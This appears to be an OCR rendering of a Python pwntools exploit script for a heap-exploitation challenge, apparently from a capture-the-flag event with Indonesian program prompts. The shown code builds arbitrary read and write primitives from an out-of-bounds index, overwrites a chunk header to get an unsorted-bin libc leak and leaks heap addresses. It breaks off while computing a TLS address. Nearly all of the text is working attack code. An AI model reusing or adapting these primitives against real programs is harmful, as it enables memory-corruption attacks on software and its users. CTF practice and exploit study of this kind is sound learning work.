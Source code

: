 ```python
    menu(time)
    menu(snooze)
    sa(": ", waifu)

def free(idx):
    menu(2)
    if idx > 3:
        sa(": ", b"\x00"*idx)
    else:
        menu(idx)

def edit(idx, time, snooze, waifu):
    menu(3)
    if idx > 3:
        sa(": ", b"\x00"*idx)
    else:
        menu(idx)
    menu(time)
    menu(snooze)
    sa(": ", waifu)

def show(idx):
    menu(4)
    if idx > 3:
        sa(": ", b"\x00"*idx)
    else:
        menu(idx)
    ru("Bersama ")

def write(where, what):
    edit(4, -1, -1, p64(where))
    edit(0, what, -1, b"\x00")
    edit(4, -1, -1, p64(heap+0x2a0)) # original pointer address

def where(addr):
    edit(4, -1, -1, p64(addr))
    show(0)
    ru(b"selama ")
    addr = int(ru(b" detik"))
    edit(4, -1, -1, p64(heap+0x2a0))
    return addr

def exploit():
    global io, heap
    io = initialize()
    with log.progress("Allocate alot of chunk"), context.silent:
        for i in reversed(range(9)):
            alloc(i, -1, -1, b"\x00")
        show(4)
        heap_leak = u64(ru(b" selama").ljust(8, b"\x00"))
        heap = heap_leak & ~0xfff - 0x1000
    leak("Heap leak", heap_leak)
    leak("Heap address", heap)
    with log.progress("Overwrite the first chunk header and get unsorted bins"):
        write(heap+0x298, 0x5d1) # pointer chunk 0 - 0x8
        free(0)
        show(0)
        ru(b"selama ")
        libc_leak = int(ru(b" detik"))
        libc.address = libc_leak - 0x21ace0
        alloc(0, -1, -1, b"\x00") # Fix idx 0
        if args.DOCKER or args.REMOTE:
            tls = libc.address - 0x3000
```